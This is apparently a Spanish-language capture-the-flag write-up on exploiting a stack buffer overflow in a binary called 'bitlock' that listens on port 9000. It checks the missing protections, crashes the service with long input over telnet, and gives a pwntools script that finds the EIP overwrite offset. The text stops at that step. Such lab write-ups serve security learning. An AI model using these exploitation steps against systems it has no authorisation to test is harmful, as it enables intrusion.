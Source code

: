 No tiene protección del stack (canaries), no tiene el bit NX por lo que el stack es ejecutable, y tampoco tiene PIE, por lo que las direcciones del código siempre serán las mismas.

Probamos a ejecutarlo:

![image](https://github.com/user-attachments/assets/30318512-ec36-4e7b-a6a1-bf8cab1f014f)

Al parecer se pone en escucha por el puerto 9000. La máquina tiene este puerto abierto, por lo que alomejor es el mismo binario el que se está ejecutando.

Nos conectamos al localhost por el puerto 9000 con telnet y probamos a enviar mucho texto:

```python
telnet 127.0.0.1 9000
```

![image](https://github.com/user-attachments/assets/30de80d3-e4e4-41b4-aae8-31a93d0aae94)

![image](https://github.com/user-attachments/assets/a6e470f7-1bb0-46d6-99bd-963c93c6f103)

El programa peta y devuelve segmentation fault, parece que hay un buffer overflow. Vamos a ir automatizando toda la explotación del buffer overflow con pwntools.

Lo primero sacamos el offset para sobrescribir el registro EIP con este script:

```python
#!/usr/bin/python3

from pwn import *

def main():

    def get_eip_offset(pattern_length):

        p = process(filename)
        
        r = remote(target_ip, target_port)

        r.sendline(cyclic(pattern_length))

        p.wait()
        
        return cyclic_find(p.corefile.eip)

    
    target_ip = str(sys.argv[1])
    target_port = int(sys.argv[2])

    filename = "../content/bitlock"

    elf = context.binary = ELF(filename, checksec=False)
    context.log_level = "error"


    eip_offset = get_eip_offset(50)

    print(eip_offset)    
   

if __name__ == '__main__':

    main()
```

